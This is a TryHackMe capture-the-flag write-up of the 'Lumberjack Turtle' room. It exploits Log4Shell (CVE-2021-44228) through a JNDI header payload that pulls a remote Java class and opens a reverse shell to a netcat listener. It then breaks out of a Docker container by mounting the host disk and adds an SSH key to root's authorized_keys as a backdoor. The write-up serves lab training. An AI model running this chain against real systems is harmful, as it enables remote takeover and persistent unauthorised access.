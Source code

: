 ```yaml
---
layout: post
title: 'Try Hack Me - Lumberjack Turtle'
disass:
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    title: description
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    title: other
categories:
  - tryhackme
slug: hack-lumberjack-turtle
tags:
  - linux
  - java
  - log4shell
  - docker
---
```

## Challenge description

[https://tryhackme.com/room/lumberjackturtle](https://tryhackme.com/room/lumberjackturtle)

![description](/assets/img/thm-lumberjackturtle/lumberjackturtle-1.png "description")

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 -- -A -sC    
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
[...]
PORT   STATE SERVICE     REASON  VERSION
22/tcp open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCnZPtl8mVLJYrSASHm7OakFUsWHrIN9hsDpkfVuJIrX9yTG0yhqxJI1i8dbI/MrexUGrIGzYbgLpYgKGsH4Q4dxB9bj507KQaTLWXwogdrkCVtP0WuGCo2EPZKorU85EWZAhrefG1Pzj3lAx1IdaxTHIS5zTqEJSZYttPF4BHb2avjKDVfSA+4cLP7ybq0rgohJ7JLG5+1dR/ijrGpaXnfudm/9BVjiKcGMlENS6bQ+a32Fs7wxL5c7RfKoR0CjA+pROXrOj5blQM4CI4wrEdphPZ/900I4DJ+kA6Ga+NJF6donQOmmhjsEEpI6RYcz6n/4ql1bomnyyI+jayyf3t
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBPkLzZd9EQTP/90Y/G1/CYr+PGrh376Qm6aZTO0HZ7lCZ0dExE834/QZ1vNyQPk4jg1KmS09Mzjz1UWWtUCYLg=
|   256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFdrmxj3Q5Et6BwEm7pC8cz5louqLoEAwNXGHi+3ee+t
80/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a web server, apparantly nagio ncsa, running on port 80, which is unusual for this service that is normally running on port 5667 and a SSH server on port 22.

### Web Enumeration

There's nothing more than the home page that says :

> *What you doing here? There is nothing for you to C. Grab a cup of java and look deeper.*

After scratching my head for 10-15 minutes I tought about the room description :

> *What do lumberjacks and turtles have to do with this challenge?*
Hack into the machine. Get root.  You'll figure it out.

Lumberjack / Logging / Logs + Turtle / Shell = Log4Shell

So I launched a listener on ldap port (1389) and started fuzzing HTTP headers using Burp Suite. It didn't take long to get a hit, actually it worked on the first try, *accept* header :

![burpfuzz](/assets/img/thm-lumberjackturtle/lumberjackturtle-2.png "burpfuzz")

```
$ nc -lnvp 1389                                                      
listening on [any] 1389 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 35244
0
 `�^C
```

It means we should be able to exploit this and get a foothold on the target

## Exploitation

To exploit the log4shell vulnerability, I used a [POC script by github's kozmer](https://github.com/kozmer/log4j-shell-poc.git)

[instructions source](https://www.hackingarticles.in/a-detailed-guide-on-log4j-penetration-testing/)

```
$ git clone https://github.com/kozmer/log4j-shell-poc
Cloning into 'log4j-shell-poc'...
remote: Enumerating objects: 205, done.
remote: Counting objects: 100% (202/202), done.
remote: Compressing objects: 100% (119/119), done.
remote: Total 205 (delta 74), reused 167 (delta 65), pack-reused 3
Receiving objects: 100% (205/205), 40.36 MiB | 73.67 MiB/s, done.
Resolving deltas: 100% (74/74), done.
$ cd log4j-shell-poc && wget https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz
& tar xvzf jdk-8u202-linux-x64.tar.gz
& sudo mv jdk1.8.0_202 /usr/bin/

# we need to edit the script to fit jdk version/path
$ sed -i 's/jdk1.8.0_20/\/usr\/bin\/jdk1.8.0_202/' poc.py
$ python3 poc.py --userip 1.1.1.1 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://1.1.1.1:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

In another terminal, start a netcat listener on port 4444:

```
 nc -lnvp 4444                                                   
listening on [any] 4444 ...
```

We just need to repeat the request with Burp Suite to get a shell

![burpexploit](/assets/img/thm-lumberjackturtle/lumberjackturtle-3.png "burpexploit")

```
Send LDAP reference result for a redirecting to http://1.1.1.1:8000/Exploit.class
10.10.105.211 - - [24/Jan/2022 03:56:42] "GET /Exploit.class HTTP/1.1" 200 -

connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 55104
id && hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
81fbbf1def70
```

We got a reverse shell on the target as root in what seems to be a docker container. Let's confirm this by checking for .dockerenv file :

```
ls -la /
total 68
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rwxr-xr-x    1 root     root             0 Dec 13 01:25 .dockerenv
```
While we are here, let's get our first flag :

```
ls -la /opt
total 12
drwxr-xr-x    1 root     root          4096 Dec 11 21:04 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rw-r--r--    1 root     root            19 Dec 11 21:04 .flag1
cat /opt/.flag1
THM{REDACTED}
```

## Container Escape

So we are in a container, we now need to escape !

Let's start by listing disks :

```
ls -la /dev | grep disk
[...]
brw-rw----    1 root     disk      202,   0 Jan 24 01:15 xvda
brw-rw----    1 root     disk      202,   1 Jan 24 01:15 xvda1
brw-rw----    1 root     disk      202,  80 Jan 24 01:15 xvdf
brw-rw----    1 root     disk      202, 112 Jan 24 01:15 xvdh
```

Interesting, let's try to mount those disks :

```
mkdir /mnt/host
mount /dev/xvda1 /mnt/host
ls -la /mnt/host
total 100
drwxr-xr-x   22 root     root          4096 Jan 24 01:14 .
drwxr-xr-x    1 root     root          4096 Jan 24 03:18 ..
drwxr-xr-x    2 root     root          4096 Dec  8 16:04 bin
drwxr-xr-x    3 root     root          4096 Dec  8 16:03 boot
drwxr-xr-x    4 root     root          4096 Dec  8 16:03 dev
drwxr-xr-x   94 root     root          4096 Dec 13 02:21 etc
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 home
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img -> boot/initrd.img-4.15.0-163-generic
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img.old -> boot/initrd.img-4.15.0-163-generic
drwxr-xr-x   20 root     root          4096 Dec 13 01:24 lib
drwxr-xr-x    2 root     root          4096 Dec  8 15:56 lib64
drwx------    2 root     root         16384 Dec  8 16:05 lost+found
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 media
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 mnt
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 opt
drwxr-xr-x    2 root     root          4096 Apr 24  2018 proc
drwx------    6 root     root          4096 Jan 24 03:19 root
drwxr-xr-x    3 root     root          4096 Dec  8 16:04 run
drwxr-xr-x    2 root     root          4096 Dec 13 01:24 sbin
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 srv
drwxr-xr-x    2 root     root          4096 Apr 24  2018 sys
drwxrwxrwt    8 root     root          4096 Jan 24 03:26 tmp
drwxr-xr-x   12 root     root          4096 Dec 13 01:25 usr
drwxr-xr-x   12 root     root          4096 Dec 13 01:24 var
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz -> boot/vmlinuz-4.15.0-163-generic
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz.old -> boot/vmlinuz-4.15.0-163-generic
```

That is our way out. Let's get ourself a backdoor (more like, let's create ourself a key to the frontdoor) :

```
cat 'ssh-rsa AAAA[....]=' >> /mnt/host/root/.ssh/authorized_keys

$ ssh root@$ip -i ./id_rsa
root@lumberjackturtle:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We're out ! Let's get our last flag :

```
root@lumberjackturtle:~# cat root.txt
Pffft. Come on. Look harder.
root@lumberjackturtle:~# ls -laR
.:
total 36
[...]

/...:
total 12
drwxr-xr-x 2 root root 4096 Dec 13 01:25 .
drwx------ 6 root root 4096 Jan 24 03:19 ..
-r-------- 1 root root   26 Dec 13 01:25 ._fLaG2
root@lumberjackturtle:~# cat .../._fLaG2 
THM{REDACTED}
```

Thanks for reading <3

h3x
